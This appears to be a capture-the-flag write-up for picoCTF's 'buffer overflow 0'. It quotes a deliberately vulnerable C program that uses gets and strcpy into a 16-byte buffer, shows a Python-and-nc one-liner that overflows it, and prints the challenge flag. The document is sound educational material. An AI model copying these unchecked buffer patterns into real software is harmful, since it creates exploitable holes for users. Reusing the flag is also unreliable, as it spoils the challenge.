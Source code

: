 # Binary Exploitation  

## buffer overflow 0  

<img width="437" alt="image" src="https://github.com/user-attachments/assets/0078a210-2430-4c15-a763-79d5637f74eb" />  

The program given was:   
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```  

A **buffer** is any **temporary storage space in memory** where data(which is usually user input) can be stored.  
Since they hold user input, when an attacker inputs some data that is outside the buffer space, mistakes can be made, allowing an attacker to _overwrite other data_.  
This is called **Buffer Vulneralibility**.  

In this challenge, we had to deal with the given size of the buffer variable `buf2`, and simply had to input some value of size **more than 16 bytes**.   
Also, `strcpy` doesn't check any boundaries, which allows us to overflow it if our input is longer than 16 bytes.    
Observing next, since `gets` also reads input till newline, we can again overflow the `buf1` buffer (**100 bytes**) to control the memory beyond it.  

Initially, I tried to input some random strings, to which it just exited the program. On running the program, it showed:     
```
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# gcc -o vuln vuln.c
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# ./vuln
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# ./vuln
Input: yes
The program will exit now
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# ./vuln
Input: djwhdwohiwfhciedjiwfjwjfejfejwfe
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

So I started the instance and tried to enter something more than 16 bytes.  
```
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# nc saturn.picoctf.net 63835
Input: jdeiufeucnejnejfnecsnfcnediwejcfniewkncfedf
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}  
```

Found the flag:  
**`picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`**  

_One more way_ I tried was to print something muliplied by some integer in a way that it would become more than 16 bytes.  
I used here Python to exploit.  
```  
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# python3 -c "print('P' * 24 + 'Q' * 8)" | nc saturn.picoctf.net 63835
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}  
```

Here, `'P' * 24` fills the memory, while `'Q' * 8` helps in overflow.   
Resources like https://ctf101.org/binary-exploitation/buffer-overflow/ were really helpful while understanding the basic concepts.  












